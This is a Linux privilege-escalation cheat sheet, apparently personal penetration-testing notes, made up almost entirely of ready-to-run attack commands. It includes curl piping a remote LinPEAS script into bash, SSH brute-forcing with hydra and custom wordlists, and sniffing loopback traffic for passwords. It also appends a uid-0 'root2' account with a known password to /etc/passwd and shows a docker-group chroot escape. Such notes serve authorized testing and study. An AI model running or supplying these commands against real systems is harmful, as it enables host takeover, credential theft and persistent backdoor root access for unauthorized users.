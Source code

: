 # linux privesc
please let me into the root fs, i am normal and can be trusted with knowledge of your drives

### // linux privesc checklist
```
Privilege Escalation - Linux

    If LinPEAS doesn’t return anything useful then it is possible you already have the information needed to privilege escalate. Try default passwords, priv esc with fail2ban, and other common tricks.
    Don’t forget to check for any Kernel exploits: uname -a
    For privilege escalation with fail2ban, use a Netcat shell or modify the permissions of /etc/shadow
    If there are no writable directories then just pipe LinPEAS (or other tool of choice) directly into bash: curl 10.10.10.1:8080/linpeas.sh | bash
    Run this command to identify possible privilege escalation efforts: which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
    If you’ve identified a CronJob that may be exploitable then it may be worth plugging it into CronGuru.
    If spawning a shell, check all files for MySQL credentials. It is likely you will be able to privilege escalate once located. To login, ensure you have a stable shell and type mysql -u root -p
    If you are a member of the ‘Docker’ group then there are multiple opportunities for privilege escalation such as docker images and docker run -v /:/mnt --rm -it [IMAGE] chroot /mnt sh
    If breaking out of a restricted shell, ensure you check the local bin and then GTFOBins for any easy breakouts.
    Sometimes you will have to export your path after breaking out of a restricted shell. Use the following command to correct your path: export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

```

### // linux situational awareness
```
id
cat /etc/passwd
hostname
cat /etc/issue
cat /etc/os-release
uname -a
ps aux
ip a
routel
ss -anp
cat /etc/iptables/rules.v4
ls -lah /etc/cron*
crontab -l
sudo crontab -l
dpkg -l
find / -writable -type d 2>/dev/null
cat /etc/fstab
mount
lsblk
lsmod
/sbin/modinfo <kernel_module>
find / -perm -u=s -type f 2>/dev/null
```

### // user trails
```
env
cat .bashrc
// generate a custom wordlist based on potenital passwords
crunch <min> max<> -t <word>%%% > wordlist
// bruteforce w/ generated wordlist
hydra -l <user> -P wordlist <tgt_ip> -t 4 ssh -V
```

### // inspecting service footprints
```
watch -n 1 "ps -aux | grep pass"
sudo tcpdump -i lo -A | grep "pass"
```

### // abusing cron jobs
```
grep "CRON" /var/log/syslog
```

### // abusing password authentication
```
openssl passwd w00t
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
w00t
id
```

### // abusing setuid binaries and capabilities
```
// search for suid bins
https://gtfobins.github.io/
```

### // abusing sudo
```
// what can we run as sudo with our current user?
sudo -l
```

### // exploiting kernel vulnerabilities
```
cat /etc/issue
uname -r 
arch
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"
```


